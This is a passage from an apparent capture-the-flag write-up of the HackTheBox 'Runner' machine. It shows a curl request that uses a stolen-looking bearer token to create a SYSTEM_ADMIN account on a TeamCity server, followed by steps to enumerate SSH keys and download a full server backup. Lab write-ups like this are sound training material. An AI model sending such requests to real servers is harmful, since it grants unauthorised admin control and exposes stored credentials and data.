 

    oxdf@hacky$ curl http://teamcity.runner.htb/app/rest/users -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data '{"email": "", "username": "0xdf", "password": "0xdf0xdf", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}'
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?><user username="0xdf" href="/app/rest/users/id:13"><properties count="3" href="/app/rest/users/id:13/properties"><property name="addTriggeredBuildToFavorites" value="true"/><property name="plugin:vcs:anyVcs:anyVcsRoot" value="0xdf"/><property name="teamcity.server.buildNumber" value="129390"/></properties><roles><role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:13/roles/SYSTEM_ADMIN/g"/></roles><groups count="1"><group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/></groups></user>



With that, I can log into TeamCity with the user I created:

![](/img/image-20240425151358841.png)

#### Enumeration

One thing of note in this admin panel is under "All-Projects" and then
the dropdown next to "Edit project...", there is an SSH Keys option with
a "1" by it:

![](/img/image-20240425171254985.png)

Clicking on it, it shows the key, but I can only access the public key:

![](/img/image-20240425171330319.png)

#### Generate Backup

At the top right of the page is a link "Administration" that leads to an
admin page. In the menu on the left is a "Backup" option:

[![](/img/image-20240822172129986.png)*Click for full size
![image*](/img/image-20240822172129986.png)

That gives a page to start a backup. I'll set it to "All except build
artifacts":

![](/img/image-20240822172232779.png)

On clicking "Start Backup", it takes about a second to complete the
backup and it's available in a new section at the bottom of the page:

![](/img/image-20240822172313414.png)

Clicking the link download the zip archive.

#### Data

Unzipping the archive results in a handful of files and directories:


